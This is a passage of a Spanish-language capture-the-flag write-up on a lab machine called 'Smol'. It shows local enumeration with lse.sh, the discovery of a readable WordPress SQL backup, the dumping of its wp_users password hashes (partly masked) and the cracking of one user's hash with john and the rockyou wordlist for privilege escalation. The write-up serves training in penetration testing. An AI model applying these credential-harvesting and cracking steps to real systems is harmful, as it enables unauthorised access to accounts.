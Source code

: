 ```
drwx------ 2 1000 1000 4096 Jan 12  2024 .cache
drwx------ 3 1000 1000 4096 Aug 18  2023 .gnupg
-rw-r--r-- 1 1000 1000  807 Jun  2  2023 .profile
drwxr-xr-x 2 1000 1000 4096 Jun 21  2023 .ssh
lrwxrwxrwx 1    0    0    9 Aug 18  2023 .viminfo -> /dev/null
think@smol:~$ id
uid=1000(think) gid=1000(think) groups=1000(think),1004(dev),1005(internal)
think@smol:~$ 
```

Lanzamos el script *lse.sh* y enumeramos una copia de seguridad de *WordPress*, pero no contamos con permisos de *root*:
```
[!] fst190 Can we read any backup?......................................... yes!
---
-rw-r--r-- 1 root root 291970 Mar 29  2024 /opt/wp_backup.sql
```

Leemos el contenido del fichero *wp_backup.sql*, logramos identificar los diferentes hashes de la copia de seguridad:
```
--
-- Dumping data for table `wp_users`
--

LOCK TABLES `wp_users` WRITE;
/*!40000 ALTER TABLE `wp_users` DISABLE KEYS */;
INSERT INTO `wp_users` VALUES (1,'admin','$P$Bv******************aACL1','admin','admin@smol.thm','http://192.168.204.139','2023-08-16 06:58:30','',0,'admin'),(2,'wpuser','$P$BfZj******************/E.','wp','wp@smol.thm','http://smol.thm','2023-08-16 11:04:07','',0,'wordpress user'),(3,'think','$P$B0******************b7Vd/','think','josemlwdf@smol.thm','http://smol.thm','2023-08-16 15:01:02','',0,'Jose Mario Llado Marti'),(4,'gege','$P$Bs******************0m1','gege','gege@smol.thm','http://smol.thm','2023-08-17 20:18:50','',0,'gege'),(5,'diego','$P$BW******************wv1','diego','diego@smol.thm','http://smol.thm','2023-08-17 20:19:15','',0,'diego'),(6,'xavi','$P$Bv******************qJZCN/','xavi','xavi@smol.thm','http://smol.thm','2023-08-17 20:20:01','',0,'xavi');
/*!40000 ALTER TABLE `wp_users` ENABLE KEYS */;
UNLOCK TABLES;
```

Con el anterior hallazgo, intentamos crackear la de los usuarios restantes *Gege* y *Xavi*, con la intención de escalar privilegios, así que volvemos a utilizar **john** y el diccionario **rockyou**, finalmente conseguimos la contraseña de *Gege*:
```
john gege.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
*********************** (?)     
1g 0:00:04:45 DONE (2025-01-28 19:50) 0.003499g/s 26669p/s 26669c/s 26669C/s herochoi..hero224
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed. 
```
